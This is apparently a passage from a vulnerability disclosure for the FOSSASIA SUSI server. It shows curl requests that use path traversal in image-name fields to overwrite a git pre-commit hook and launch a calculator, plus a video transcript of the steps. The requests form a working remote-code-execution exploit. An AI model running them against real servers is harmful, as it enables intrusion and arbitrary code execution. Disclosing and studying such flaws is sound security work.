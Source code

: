 We change the first curl command:
1. Run
   ```bash
   `curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_server/src/org/json/JSONException.java' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
   (`-F 'old_image_name=../../../../../../`**`susi_server/src/org/json/JSONException.java`**` changed)
2. Run
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```

Et voila!
After about 60 seconds a calc pops up.

# POC-Video - Detailed Explanation

<video preload="none" controls="controls" style="width:100%" aria-describedby="video-transcript">
{% for video in site.static_files %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.mp4' %}
      <source type="video/mp4" src="{{ video.path }}">
  {% endif %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.webm' %}
      <source type="video/webm" src="{{ video.path }}">
  {% endif %}
{% endfor %}
  <p>Your browser does not support the video element.</p>
</video>

#### Video Transcript - Detailed Explanation:
{: #video-transcript---detailed-explanation }
<div id="video-transcript" markdown="1">

1. In a terminal `bin/start.sh` is executed inside the `susi_server` folder to start the server.
2. In a terminal the following command is executed:
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'model=general' \
   -F 'group=Knowledge' -F 'language=en' -F 'skill=whois' -F 'content=OWNED' \
   -F 'image=' -F 'image_name=owned' 'http://localhost:4000/cms/createSkill.json'
   ```
   This creates the file `susi_skill_data/models/general/Knowledge/en/whois.txt` (`susi_skill_data` is a sibling directory of `susi_server`) with the content `OWNED`.
3. A file manager is opened which shows the existence of the `susi_skill_data/models/general/Knowledge/en/whois.txt` file and also the `susi_skill_data/models/general/Knowledge/en/images/owned` file.
4. In a terminal the following command is executed:
   ```bash
   `curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_server/src/org/json/JSONException.java' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
